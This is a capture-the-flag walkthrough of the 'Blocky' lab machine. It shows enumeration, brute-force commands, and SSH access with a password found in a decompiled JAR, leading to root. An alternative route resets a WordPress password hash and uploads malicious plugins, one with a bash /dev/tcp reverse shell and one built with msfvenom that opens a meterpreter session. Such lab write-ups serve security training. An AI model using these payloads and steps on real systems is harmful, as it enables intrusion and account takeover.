`Box: Linux`
`Level: Easy`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap`](#`Initial%20Nmap`)
3. [`Reconnoitre OSCP Scanner`](#`Reconnoitre%20OSCP%20Scanner`)
	1. [`Findings.txt reveals what commands I should run on the target`](#`Findings.txt%20reveals%20what%20commands%20I%20should%20run%20on%20the%20target`)
4. [`FTP Enumerations`](#`FTP%20Enumerations`)
5. [`Web Enumerations`](#`Web%20Enumerations`)
	1. [`WPScan to scan the WordPress Site`](#`WPScan%20to%20scan%20the%20WordPress%20Site`)
	2. [`Failed Attempt of xmlrpc.php on WordPress`](#`Failed%20Attempt%20of%20xmlrpc.php%20on%20WordPress`)
	3. [`Directory and File Enum`](#`Directory%20and%20File%20Enum`)
	4. [`JD-Gui to Decompiled Java Class`](#`JD-Gui%20to%20Decompiled%20Java%20Class`)
6. [`User and Root Flag`](#`User%20and%20Root%20Flag`)

### `Box Info`
```
Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector: Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators.
```

### `Initial Nmap`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.37
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

### `Reconnoitre OSCP Scanner`

While watching the `ippsec` videos, I found this OSCP scanner which kind of prepare the list of scanning commands that you should run on the target.
Get the [Reconnoitre](https://github.com/codingo/Reconnoitre) from the GitHub
```
# reconnoitre -t 10.10.10.37 -o /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre  --services
  __
|\"\"\"\-=  RECONNOITRE
(____)      An OSCP scanner by @codingo_

[+] Testing for required utilities on your system.
[#] Performing service scans
[*] Loaded single target: 10.10.10.37
[+] Creating directory structure for 10.10.10.37
   [>] Creating scans directory at: /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans
   [>] Creating exploit directory at: /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/exploit
   [>] Creating loot directory at: /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/loot
   [>] Creating proof file at: /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/proof.txt
[+] Starting quick nmap scan for 10.10.10.37
[+] Writing findings for 10.10.10.37
[*] Found FTP service on 10.10.10.37:21
[*] Found SSH service on 10.10.10.37:22
[*] Found HTTP/S service on 10.10.10.37:80
[*] Found HTTP service on 10.10.10.37:80
[*] TCP quick scans completed for 10.10.10.37
..................Scan still running for UDP Ports......................
```

###### `Findings.txt reveals what commands I should run on the target`
```
[*] Found FTP service on 10.10.10.37:21
   [*] Enumeration
      [=] nmap -sV -Pn -vv -p21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-syst,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 -oA '/home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_21_ftp' 10.10.10.37
      [=] hydra -L USER_LIST -P PASS_LIST -f -o /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_21_ftphydra.txt -u 10.10.10.37 -s 21 ftp

[*] Found SSH service on 10.10.10.37:22
   [*] Bruteforcing
      [=] medusa -u root -P /usr/share/wordlists/rockyou.txt -e ns -h 10.10.10.37 - 22 -M ssh
      [=] hydra -f -V -t 1 -l root -P /usr/share/wordlists/rockyou.txt -s 22 10.10.10.37 ssh
      [=] ncrack -vv -p 22 --user root -P PASS_LIST 10.10.10.37
   [*] Use nmap to automate banner grabbing and key fingerprints, e.g.
      [=] nmap 10.10.10.37 -p 22 -sV --script=ssh-hostkey -oA '/home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_22_ssh-hostkey'

[*] Found HTTP/S service on 10.10.10.37:80
   [*] Enumeration
      [=] nikto -h 10.10.10.37 -p 80 -output /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_80_nikto.txt
      [=] curl -i 10.10.10.37:80
      [=] w3m -dump 10.10.10.37/robots.txt | tee /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_80_robots.txt
      [=] VHostScan -t 10.10.10.37 -oN /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_80_vhosts.txt

[*] Found HTTP service on 10.10.10.37:80
   [*] Enumeration
      [=] dirb http://10.10.10.37:80/ -o /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_80_dirb.txt
      [=] dirbuster -H -u http://10.10.10.37:80/ -l /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -s / -v -r /home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_80_dirbuster_medium.txt
      [=] gobuster -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.37:80/ -s '200,204,301,302,307,403,500' -e | tee '/home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_80_gobuster_common.txt'
      [=] gobuster -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://10.10.10.37:80/ -s '200,204,301,307,403,500' -e | tee '/home/ringbuffer/Downloads/Linux-Boxes/Blocky.htb/Reconnoitre/10.10.10.37/scans/10.10.10.37_80_gobuster_cgis.txt'

[*] Always remember to manually go over the portscan report and carefully read between the lines ;)
```

### `FTP Enumerations`
```
# nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.10.10.37
```
There were few exploits on Exploit-DB for the `ProFTPD 1.3.5` however we have a version `1.3.5a`. I tried it out but didn't work.
### `Web Enumerations`

While running the `Feroxbuster` I encountered a lot of directories within `wp-content` which indicates its a WordPress Site. Although I have had a hard time performing `feroxbuster` scan. I guess the endpoints. One of the successful guess was `http:blocky.htb/phpmyadmin`. Will look into that later.


Tried couple of Default credentials but none of them work. 
###### `WPScan to scan the WordPress Site`
```
# wpscan -e u --url http://blocky.htb/  
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blocky.htb/ [10.10.10.37]
[+] Started: Fri Oct 11 00:48:56 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blocky.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blocky.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blocky.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blocky.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blocky.htb/index.php/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://blocky.htb/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://blocky.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://blocky.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.7
 | Style URL: http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Oct 11 00:49:06 2024
```

Looking at the scan it does identified the user `notch`
###### `Failed Attempt of xmlrpc.php on WordPress`


Turning on the Burp Suite, I got the list of methods.
`HTTP POST REQUEST`
```
POST /xmlrpc.php HTTP/1.1
Host: blocky.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
\
`HTTP RESPONSE`
```
HTTP/1.1 200 OK
Date: Thu, 10 Oct 2024 07:49:27 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Vary: Accept-Encoding
Content-Length: 4272
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>

[[SNIPPED for bravity]]
```
It list out all the methods. some of them were interesting but require the valid credentials to execute. 

The following POST request was sent with the payload
```
POST /xmlrpc.php HTTP/1.1
[[Snipped for bravity]]

<methodCall>
<methodName>mt.getPostCategories</methodName>
<params>
<param><value>blocky</value></param>
<param><value>blocky</value>
</param>
</params>
</methodCall>
```

```
HTTP/1.1 200 OK
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

This was a rabbit hole unless I have a valid WP Credentials.

###### `Directory and File Enum`
While solving this box, I really had a hard time running `gobuster` or `feroxbuster` or even `dirbuster` scan. It was keep throwing the following message
```
# gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.37
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

Error: the server returns a status code that matches the provided options for non existing urls. http://10.10.10.37/43aa4d6a-9dff-4389-9e31-e3f7e8e822a6 => 302 (Length: 278). To continue please exclude the status code or the length
```

I tweak the commands in different way but that did not helped me. Basically, There's a `http://10.10.10.37/plugins/` directory which gives us two files to download.



These are two JAR files. Download both the JAR files.

###### `JD-Gui to Decompiled Java Class`

Opening the above BlockyCore.jar file (you probably need to extract them first) with Jd-GUI reveals the credentials for the Database.


### `User and Root Flag`
I was able to use the above password for the user `notch`
```
# ssh notch@10.10.10.37
notch@10.10.10.37's password:8YsqfCTnvxAUeduzjNSXe22
notch@Blocky:~$ cat /home/notch/user.txt
94376da********************

notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# 

```

Get your root flag.

### `Finding another way through PhpMyAdmin`

So while solving this box, I encounter one endpoint which was `http://blocky.htb/phpmyadmin`


The `root` and `password` we discovered from the Code was working here.

Looking at the wp_users, the hash was there but I was not able to cracked it using hashcat or john. So I update the `wp_users` with the following update query.

###### `Create WP Hash`

Visit https://www.forge12.com/en/wordpress-password-generator/ and Provide the password that you'd like to set for the user `notch`. Following to that run the below SQL query where the hash represent the password.

```
UPDATE `wp_users` SET `user_pass` = "$P$B.iObUykNytZ8uRqJFMhKC4shyJb9y/" WHERE user_login="your_user_name"
```


Now go to `http://blocky.htb/wp-admin` and login with `notch` user.


So we have WordPress Version 4.8. First I will try to import a malicious plugin to grab the reverse shell.

###### `Creating WordPress Reverse Shell Plugin`
```
# cat WP_Reverse_Shell.php 
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'");
?>
```

```
# zip WP_Reverse_Shell_Plugin.zip WP_Reverse_Shell.php 
  adding: WP_Reverse_Shell.php (deflated 9%)
```

Uploading the Plugin and Starting the NetCat Reverse Shell


```
Installing Plugin from uploaded file: WP_Reverse_Shell_Plugin.zip

Unpacking the package…

Installing the plugin…

The package could not be installed. No valid plugins were found.

Plugin install failed.

Return to Plugin Installer

```

Ouch!! The Plugin Installation Failed. I found the GitHub Repo which uses `msfvenom` which got me the shell as `www-data`. 
###### `Maliicous WordPress Plugin using msfvenom`
This [GitHub Repo](https://github.com/wetw0rk/malicious-wordpress-plugin) will prepare `malicious.zip` which you will uplaod again the same way and this time it will upload successfully.

```
# python wordpwn.py 10.10.14.2 4444 Y
[*] Checking if msfvenom installed
[+] msfvenom installed
[+] Generating plugin script
[+] Writing plugin script to file
[+] Generating webshell payload
[+] Writing plugin script to file
[+] Generating payload To file
...................................At this point you'll see the malicious.zip in your CWD.
```

```
┌──(root㉿kali)-[/home/…/Downloads/Linux-Boxes/Blocky.htb/malicious-wordpress-plugin]
└─# ls
LICENSE.md  malicious.zip  README.md  wordpress.rc  wordpwn.py
```



The plugin uploaded successfully. Once you `Activate` the plugin, you will go to the following URL. Remember the above `python wordpwn.py 10.10.14.2 4444 Y` command is still running in a separate terminal.
`http://blocky.htb/wp-content/plugins/malicious/`



Click on `wetw0rk_maybe.php` and you will see the meterpreter session open on the terminal.

```

[*] Processing wordpress.rc for ERB directives.
resource (wordpress.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (wordpress.rc)> set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
resource (wordpress.rc)> set LHOST 10.10.14.2
LHOST => 10.10.14.2
resource (wordpress.rc)> set LPORT 4444
LPORT => 4444
resource (wordpress.rc)> exploit
[*] Started reverse TCP handler on 10.10.14.2:4444 

[*] Sending stage (39927 bytes) to 10.10.10.37
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.37:58158) at 2024-10-11 00:24:03 -0400
meterpreter > shell
Process 2469 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@Blocky:/var/www/html/wp-content/plugins/malicious$

www-data@Blocky:/var/www/html/wp-content/plugins/malicious$ cat /home/notch/user.txt
<ml/wp-content/plugins/malicious$ cat /home/notch/user.txt                   
cat: /home/notch/user.txt: Permission denied
www-data@Blocky:/var/www/html/wp-content/plugins/malicious$
```

Permission denied when reading the user flag. Ofcourse we are `www-data`. Let's Try to escalate privilege from here to user `notch`.

```
www-data@Blocky:/tmp$ su - notch
su - notch
Password: 8YsqfCTnvxAUeduzjNSXe22

notch@Blocky:~$ id
id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ 
```

From here you can also grab the root flag.

###### `Password from Code works on FTP too`
```
# ftp 10.10.10.37                                                                                               
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:ringbuffer): notch
331 Password required for notch
Password: 
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||38200|)
150 Opening ASCII mode data connection for file list
drwxrwxr-x   7 notch    notch        4096 Jul  3  2017 minecraft
-r--------   1 notch    notch          33 Oct 11 00:28 user.txt
226 Transfer complete
```

### `Let's Assume that the password didn't worked`

Let's assume that our password that we obtained from the source code did not allowed us to SSH into the box as a user `notch`. 
```
# ftp 10.10.10.37                                                                                                                 
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:ringbuffer): notch
331 Password required for notch
Password: 
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
